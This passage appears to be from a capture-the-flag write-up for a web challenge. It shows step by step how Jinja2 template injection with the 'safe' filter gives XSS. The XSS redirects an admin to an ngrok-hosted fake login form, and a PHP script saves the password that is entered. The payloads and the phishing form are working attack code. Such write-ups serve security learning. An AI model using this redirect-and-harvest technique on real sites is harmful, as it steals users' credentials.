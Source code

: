 The idea could be to create a fake form hosted with ngrok and use the template injection to perform a javascript redirect to our fake form. Let's try to get an XSS injection. First, there are two main problems to solve: payload length under 25 chars and `message` escaping. We can pass a second argument to the page and call it from `message` argument to bypass payload length constraint and escaping. We can try with

```plaintext
p=<script>alert(1)</script>&message={% raw %}{{request.args.p}}{% endraw %}
```

Doesn't seem to work. The template engine escapes strings by default. We know that flask framework uses jinja2 as template engine, which has the `safe` keyword to disable escaping. Let's try with

```plaintext
p=<script>alert(1)</script>&message={% raw %}{{request.args.p|safe}}{% endraw %}
```

Now it works. Using the JS property `document.location`, we can create our final payload.

```plaintext
p=<script>document.location='http://my.ngrok.ip'</script>&message={% raw %}{{request.args.p|safe}}{% endraw %}
```

and then the link we will submit to the admin

```plaintext
https://brokenlogin.web.actf.co/?p=<script>document.location='http://my.ngrok.ip'</script>&message={% raw %}{{request.args.p|safe}}{% endraw %}
```

We can handle the flag with a simple `save.php` script

```php
<?php
    $flag = $_POST['password'];
    $myfile = fopen("flag.txt", "w") or die("Unable to open file!");

    fwrite($myfile, $flag);
    fclose($myfile);

    echo "ok!";
```

which is executed after the submission of the fake form

```html
<html>
    <head>
        <title>Exploit</title>
    </head>
    <body>
        <form action="save.php" method="POST">
            <label for="username">Username: </label>
            <input id="username" type="text" name="username" /><br /><br />

            <label for="password">Password: </label>
            <input id="password" type="password" name="password" /><br /><br />

            <input type="submit" />
        </form>
    </body>
</html>
```
